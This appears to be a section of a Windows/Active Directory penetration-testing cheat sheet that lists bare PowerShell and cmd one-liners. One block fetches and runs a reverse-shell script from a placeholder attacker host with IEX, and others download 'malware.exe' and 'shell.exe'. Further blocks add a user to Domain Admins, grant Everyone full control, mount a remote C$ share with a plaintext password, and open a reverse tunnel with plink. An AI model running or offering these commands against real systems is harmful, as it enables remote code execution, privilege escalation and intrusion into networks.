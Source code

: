 
# Miscellaneous
## &nbsp;&nbsp;&nbsp;&nbsp; Changing Permissions of a file
<pre class="prettyprint linenums:"><code class="language-powershell">icacls text.txt /grant Everyone:F
</code></pre>

## &nbsp;&nbsp;&nbsp;&nbsp; Downloading files 
<pre class="prettyprint linenums:"><code class="language-powershell">IEX (New-Object System.Net.WebClient).DownloadString("http://ATTACKER_IP/rev.ps1")
(New-Object System.Net.WebClient).DownloadFile("http://ATTACKER_SERVER/malware.exe", "C:\Windows\Temp\malware.exe")  
Invoke-WebRequest "http://ATTACKER_SERVER/malware.exe" -OutFile "C:\Windows\Temp\malware.exe"  

certutil.exe -urlcache -split -f "http://127.0.0.1:80/shell.exe" shell.exe
</code></pre>

## &nbsp;&nbsp;&nbsp;&nbsp; Adding user to Domain admins
<pre class="prettyprint linenums:"><code class="language-powershell">Add-DomainGroupMember -Identity 'Domain Admins' -Members morph3 -Verbose
</code></pre>
##  &nbsp; &nbsp;&nbsp;&nbsp; Base64 Encode-Decode
<pre class="prettyprint linenums:"><code class="language-powershell">certutil -decode foo.b64 foo.exe
certutil -encode foo.exe foo.b64
</code></pre>

## &nbsp; &nbsp;&nbsp;&nbsp; Network sharing
<pre class="prettyprint linenums:"><code class="language-powershell"># Local share
net share
wmic share get /format:list

# Remote share
net view
net view \\dc.ecorp.foo /all
wmic /node: dc.ecorp.foo share get

# Mounting share
net use Z: \\127.0.0.1\C$ /user:morph3 password123
</code></pre>


## &nbsp; &nbsp;&nbsp;&nbsp; Port Forwarding
<pre class="prettyprint linenums:"><code class="language-powershell"># Port forward using plink
plink.exe -l morph3 -pw pass123 192.168.1.56 -R 8080:127.0.0.1:8080
